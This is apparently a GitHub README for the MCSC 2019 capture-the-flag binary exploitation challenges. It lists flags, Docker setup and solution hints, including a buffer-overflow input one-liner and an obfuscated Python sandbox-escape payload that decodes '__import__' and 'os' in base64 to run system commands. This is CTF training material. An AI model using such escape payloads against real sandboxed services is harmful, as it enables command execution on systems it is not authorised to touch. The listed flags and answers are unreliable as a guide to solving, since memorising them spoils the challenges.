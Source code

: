## MCSC 2019 Binary Exploitation Challenges
>thinbashane < @art0flunam00n >

**1.warmup - 50**

Description 
 - get the flag ! 
 - pwn50.c 

Flag
 - `MCSC_2019{v4riabl3_0v3rwrite3_b0f}`

Setting up
 - `cd pwn50` - change directory to the challenge
 - `docker build -t pwn50 .` - build from Dockerfile
 - `docker run -p 1337:1337 pwn50` - run docker containter
 - `nc <server_ip> 1337` - Challenge Access 

Solution
	 - `python -c 'print "MCSC"*30'`

Writeup
 - releases after competition
---
**2.interview - 100**

Description
 - Read the fl4g file
 - Binary file

Flag
 - `MCSC_2019{buff3r_0verfl0w_15_3a5y}`

Setting up
 - `cd pwn100b` - change directory to the challenge
 - `docker build -t pwn100b .` - build from Dockerfile
 - `docker run -it --rm --cap-add=SYS_PTRACE --security-opt seccomp=unconfined -p 2222:2222 pwn100b` - run docker containter
 - `nc <server_ip> 2222`

Writeup
 - releases after competition
 - exp.py

---
**3.lolcalc - 200**

Description
 - Read the fl4g file

Flag
 - `MCSC_2019{mM_5and_b0x_fuN_b0y}`

Setting up
 - `cd pwn200` - change directory to the challenge
 - `docker build -t pwn200 .` - build from Dockerfile
 - Run docker 
	 - ```docker run -p 1997:1997 pwn200```
 - `SSH service`  

Writeup
 - releases after competition
 - `__builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('b3M='.decode('base64')).system("f***")`

**4.password - 250**

Description
 - Read the fl4g file
 - binary file

Flag
 - `MCSC_2019{UAF_u53_4ft3r_fr33_fl4g}`

Setting up
 - `cd pwn200` - change directory to the challenge
 - `docker build -t pwn200 .` - build from Dockerfile
 - Run docker 
	 - ```docker run -it --rm --cap-add=SYS_PTRACE --security-opt seccomp=unconfined -p 1994:1994 pwn200```
 - `nc <server_ip> 1994` 

Writeup
 - releases after competition
 - exploit.py


